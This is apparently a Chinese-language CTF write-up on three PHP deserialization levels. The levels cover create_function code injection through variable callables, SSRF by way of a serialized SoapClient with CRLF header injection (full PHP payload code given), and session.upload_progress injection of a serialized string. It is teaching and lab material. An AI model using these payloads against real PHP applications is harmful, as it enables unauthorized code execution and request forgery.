 ## Level 1 - `create_function` 与可变函数的调用

**代码分析:**

观察代码可以得知，`func` 类的析构函数会反序列化自身的 `key` 属性，并将其当作一个可调用（callable）对象来执行。`GetFlag` 类的 `get_flag` 方法会把自身的 `action` 属性也当作一个可调用对象来执行。

**核心知识点:**

1.  **`create_function($args, $code)`:** 这是 PHP 的一个函数，用于动态地创建一个匿名函数（闭包）。第一个参数 `$args` 定义函数的参数列表（字符串形式），第二个参数 `$code` 是函数的代码体（字符串形式）。*（注意：此函数在 PHP 7.2.0 中被弃用，并在 PHP 8.0.0 中被移除，存在严重安全风险）。*
2.  **PHP 中的可调用对象 (Callable):** 在 PHP 中，可以用多种形式表示一个可被调用的单元：
      * 函数名的字符串，例如 `"system"`。
      * 数组形式 `[对象实例, '方法名字符串']`，例如 `[$object, 'methodName']`。
      * 数组形式 `['类名字符串', '静态方法名字符串']`，例如 `['ClassName', 'staticMethod']`。
      * 实现了 `__invoke()` 魔术方法的对象实例。
      * 匿名函数（`Closure` 类的实例）。

**解题思路:**

理解了以上知识点后，解题步骤如下：

1.  **构造对象:** 创建 `GetFlag` 类和 `func` 类的实例（假设实例分别为 `$a` 和 `$f`）。
2.  **设置 `GetFlag` 的 `code` 属性:**
      * 赋值为：`'}include("flag.php");echo $flag;//'`。
      * **解释:**
          * 开头的 `}` 是为了闭合 `create_function` 默认在代码体外部添加的 `{`。这样，`include` 及后续代码就能脱离 `create_function` 创建的匿名函数的局部作用域，成为全局代码，从而能够访问全局变量 `$flag` 或执行 `include`。
          * 末尾的 `//` 用于注释掉 `create_function` 可能在代码体后追加的 `}` 或其他代码，防止语法错误或干扰。
3.  **设置 `GetFlag` 的 `action` 属性:**
      * 赋值为字符串：`"create_function"`。
      * **解释:** 虽然 `"create_function"` 本身是一个字符串，但根据 PHP 的可调用对象规则，当 `$a->action` 被当作函数调用时 (`($this->action)($this->code)` in `get_flag` method)，PHP 会将其识别为函数名并执行 `create_function` 函数。它会使用 `$this->code`（即我们构造的代码字符串）作为参数，动态创建一个函数并返回其内部名称（但由于我们注入的代码，实际执行的是 `include` 等）。
4.  **设置 `func` 的 `key` 属性:**
      * 赋值为一个数组：`[$a, "get_flag"]` (这里 `$a` 是 `GetFlag` 的实例)。
      * **解释:** 根据 PHP 的可调用对象规则，当 `$f->key` 在 `func` 的析构函数中被当作函数调用时 (`($this->key)();`)，PHP 会识别这是一个对象方法调用。它会自动调用数组的第一个元素 `$a` 作为对象实例，第二个元素 `"get_flag"` 作为要调用的方法名，从而执行 `$a->get_flag()`。

**执行流程:**

当 `$f` 对象销毁（例如脚本结束时）触发其析构函数 `__destruct` -\> `$this->key` (即 `[$a, "get_flag"]`) 被调用 -\> 执行 `$a->get_flag()` -\> `$this->action` (即 `"create_function"`) 被调用 -\> 执行 `create_function($this->code)` -\> 由于注入的 `}` 和 `//`，实际执行了 `include("flag.php"); echo $flag;` -\> 成功获取 flag。

**相关图片:**
![create_function与可变函数的调用 1](/hello_ctf/images/SERS1.png)
![create_function与可变函数的调用 2](/hello_ctf/images/SERS2.png)
![create_function与可变函数的调用 3](/hello_ctf/images/SERS3.png)

-----

## Level 2 - just\_one\_soap (利用 SoapClient 进行 SSRF)

**核心原理:**

PHP 的 `SoapClient` 类可以用于向指定的 `location` 发送 HTTP (SOAP) 请求。关键在于，当你调用 `SoapClient` 对象的**任意方法**（即使该方法在类中并不存在）时，PHP 会尝试将这个方法调用解释为一个 SOAP 操作，并据此触发一个到底层 `location` URL 的 HTTP 请求。

**题目场景:**

在题目 `index.php` 中调用了 `$c->daydream()`。如果变量 `$c` 是 `SoapClient` 类的一个实例，那么当 `$c->daydream()` 被执行时，`daydream` 会被视为一个 SOAP 方法名，从而触发 `SoapClient` 向其配置的 `location` 发起 HTTP 请求。这可以被用来进行服务端请求伪造 (SSRF)。

**构造 Payload 实现 SSRF:**

目标是构造一个 `SoapClient` 实例，使其发出的 HTTP 请求能够满足 `flag.php` 的验证条件（例如，特定的 User-Agent、Content-Type、POST 数据等）。

```php
<?php
// 需要发送的 POST 数据体
$post_data = 'pass=password';
// 计算 POST 数据体的长度
$data_len = strlen($post_data);

// 构造 User-Agent，利用 \r\n 注入额外的 HTTP 头部
// 这里注入了 Content-Type 和 Content-Length 头，以及 POST 数据体
$user_agent = "admin\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: $data_len\r\n\r\n$post_data";

// 创建 SoapClient 实例
$a = new SoapClient(null, [ // 第一个参数 WSDL 设置为 null
    'location'   => 'http://<target_server>/SER/level10/flag.php', // 目标 URL
    'user_agent' => $user_agent, // 设置包含注入头部的 User-Agent
    'uri'        => 'bbba' // targetNamespace，可以任意设置，对 SSRF 不重要
]);

// 序列化构造好的 SoapClient 对象
$b = serialize($a);
// URL 编码序列化后的字符串，以便通过 GET/POST 参数传递
echo urlencode($b);
?>
```

**关键选项:**

  * `location`: 指定 SOAP 请求的目标 URL。
  * `user_agent`: 允许自定义 HTTP 请求的 `User-Agent` 头。利用这个选项和 `\r\n` (CRLF)，可以注入任意其他的 HTTP 头部，甚至是在某些情况下注入请求体（如上例所示，通过两个 `\r\n` 分隔头部和主体）。
  * `uri`: 指定 SOAP 消息的 `targetNamespace`。

通过将 `urlencode($b)` 的结果提交给目标应用的某个反序列化入口点（例如，作为某个参数的值），当目标代码反序列化并得到 `$c = unserialize(...)`，随后调用 `$c->daydream()` 时，就会触发一个精心构造的 HTTP 请求到 `flag.php`，从而可能获取 flag。

-----

## Level 3 - session.upload\_progress (利用文件上传机制进行反序列化)

**场景:**

当 PHP Session 的存储内容本身不可直接控制时，但服务器配置满足以下条件：

1.  `session.upload_progress.enabled` 设置为 `On` (PHP \>= 5.4 默认开启)。
2.  应用中存在反序列化 Session 数据的代码。

**核心原理:**

当 `session.upload_progress.enabled` 开启时，PHP 会在处理文件上传的**同时**，检查是否存在一个特定名称的 POST 参数（该名称由 `session.upload_progress.name` 配置项定义，默认为 `PHP_SESSION_UPLOAD_PROGRESS`）。如果这个 POST 参数存在，PHP 就会在 `$_SESSION` 中创建一个以 `session.upload_progress.prefix` (默认值) + 这个 POST 参数的**值** 组合而成的键，并在该键下存储文件上传的进度信息（包括文件名、临时文件名等）。

**漏洞利用:**

利用的关键在于：在文件上传**开始时**，PHP 会查找名为 `PHP_SESSION_UPLOAD_PROGRESS` 的 POST 变量，并将其**值**写入 Session 数据结构中（通常是作为 `$_SESSION` 数组的一个键名或键名的一部分）。如果在文件上传的**同一个请求**中，我们发送了 `PHP_SESSION_UPLOAD_PROGRESS=恶意序列化字符串` 这样的 POST 数据，那么这个恶意字符串就有可能被写入到 Session 文件中。如果之后应用程序代码读取并反序列化了该 Session 数据（例如 `unserialize($_SESSION['some_key'])`），就能触发反序列化漏洞。

**利用步骤:**

1.  **构造 Payload:** 精心构造一个包含恶意 PHP 对象的序列化字符串。
2.  **创建 HTML 表单:**
      * 包含一个文件上传字段 (`<input type="file" name="file">`)。
      * **关键:** 在同一个表单中，包含一个隐藏字段或通过 JavaScript 添加一个 POST 参数，其**名称**为 `PHP_SESSION_UPLOAD_PROGRESS`，其**值**设置为步骤 1 中构造的恶意序列化字符串。
    <!-- end list -->
    ```html
    <form action="http://target.com/upload.php" method="POST" enctype="multipart/form-data">
        <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="恶意序列化字符串在这里" />
        <input type="file" name="file" />
        <input type="submit" value="Upload" />
    </form>
    ```
3.  **发送请求 (或修改请求):**
      * 方法一：直接通过上述 HTML 页面提交表单。选择任意一个文件上传。PHP 在处理上传时会读取 `PHP_SESSION_UPLOAD_PROGRESS` 的值并写入 Session。
      * 方法二（如原笔记所述，更灵活）：
          * 使用普通的文件上传表单提交一个文件。
          * 使用代理工具（如 Burp Suite）拦截这个上传请求。
          * 在请求的 POST 数据部分，**手动添加**一个名为 `PHP_SESSION_UPLOAD_PROGRESS` 的参数，并将其值设置为你的恶意序列化字符串。
          * 发送修改后的请求。

**后续:**

一旦包含恶意序列化字符串的 Session 数据被写入，等待或触发目标应用程序中反序列化 Session 数据的代码路径，即可执行任意代码或实现其他攻击效果。